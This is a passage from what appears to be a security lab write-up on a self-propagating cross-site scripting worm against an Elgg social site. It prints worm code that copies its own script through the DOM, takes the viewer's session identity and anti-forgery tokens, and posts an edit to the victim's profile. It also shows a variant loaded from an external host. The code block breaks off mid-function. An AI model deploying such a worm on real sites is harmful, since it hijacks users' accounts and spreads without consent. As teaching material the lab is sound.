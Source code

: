 The worm retrieves its own code using the DOM, ensuring it can propagate itself. The following example demonstrates how the worm accesses its code:

```yaml
<script id="worm">
var headerTag = "<script id=\"worm\" type=\"text/javascript\">"; ➀
var jsCode = document.getElementById("worm").innerHTML; ➁
var tailTag = "</" + "script>"; ➂
var wormCode = encodeURIComponent(headerTag + jsCode + tailTag); ➃
alert(jsCode);
</script>
```

The `innerHTML` property retrieves the code inside the `<script>` tags, and the `headerTag` and `tailTag` are added to reconstruct the full script. The `encodeURIComponent` function URL-encodes the worm for inclusion in HTTP requests.


### Link Approach (Alternative)

An alternative method involves hosting the worm on an external server and including it via the src attribute:
```yaml <script type="text/javascript" src="http://www.example.com/xss_worm.js"></script>```


This approach simplifies propagation, as the worm only needs to copy the `<script>` tag to the victim’s profile. However, it requires an external server to host the malicious script.


#### Full DOM-based Worm

The complete worm modifies the victim’s profile and embeds itself:

```yaml
<script type="text/javascript" id="worm">
window.onload = function(){


  var headerTag = "<script id=\"worm\" type=\"text/javascript\">";
  var jsCode = document.getElementById("worm").innerHTML; 
  var tailTag = "</" + "script>";

  //puting the pieces together
  var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);

    // Set the content of the description field and access level
    var desc = "&description=Samy is my hero" + wormCode
    desc    +="&accesslevel[description]=2";


    // Ge the name, user guid, Time Stamp and Security Token 

    var name = "&name=" + elgg.session.user.name;
    var guid = "&guid=" + elgg.session.user.guid;
    var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
    var token = "&__elgg_token=" + elgg.security.token.__elgg_token;


    // Construct the content of your url.
    var sendurl = "http://www.seed-server.com/action/profile/edit";
    var content = token + ts + name + desc + guid;

    // var samyGuid = "&guid=59";

    if (elgg.session.user.guid != 59) {

```